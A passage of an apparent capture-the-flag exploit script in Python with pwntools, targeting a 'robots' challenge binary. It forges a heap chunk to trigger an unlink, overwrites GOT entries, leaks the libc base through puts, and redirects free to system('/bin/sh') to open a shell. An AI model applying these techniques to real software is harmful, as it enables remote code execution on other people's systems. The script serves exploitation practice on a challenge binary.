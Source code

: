 ```python

    print 'step 2'

    # alloc Destructor size 60->0x50, chunk content 0x40
    add(6, 3)

    # alloc devil, size=20*7=140, bigger than fastbin
    add(3, 7)

    # edit destructor's size to 1000 by tinny
    change(1, p64(1000))

    # place fake chunk at destructor's pointer
    fakechunk_addr = 0x6030E8
    fakechunk = p64(0) + p64(0x20) + p64(fakechunk_addr - 0x18) + p64(
        fakechunk_addr - 0x10) + p64(0x20)
    fakechunk = fakechunk.ljust(0x40, 'a')
    fakechunk += p64(0x40) + p64(0xa0)
    change(6, fakechunk)

    # trigger unlink
    remove(3)

    print 'step 3'

    # make 0x6030F8 point to 0x6030E8
    payload = p64(0) * 2 + 0x18 * 'a' + p64(0x6030E8)
    change(6, payload)

    print 'step 4'

    # make exit just as return
    write(robots.got['exit'], 0x401954)

    print 'step 5'

    # set wheel cnt =3, 0x603130 in order to start robot
    write(0x603130, 3)

    # set destructor point to puts@got
    change(1, p64(robots.got['puts']))
    start_robot()
    p.recvuntil('New hands great!! Thx ')
    puts_addr = p.recvuntil('!\n', drop=True).ljust(8, '\x00')
    puts_addr = u64(puts_addr)
    log.success('puts addr: ' + hex(puts_addr))
    libc_base = puts_addr - libc.symbols['puts']
    log.success('libc base: ' + hex(libc_base))
    system_addr = libc_base + libc.symbols['system']
    binsh_addr = libc_base + next(libc.search('/bin/sh'))

    # make free->system
    write(robots.got['free'], system_addr)

    # make destructor point to /bin/sh addr
    write(0x6030E8, binsh_addr)

    # get shell
    remove(6)
    p.interactive()


if __name__ == "__main__":
```
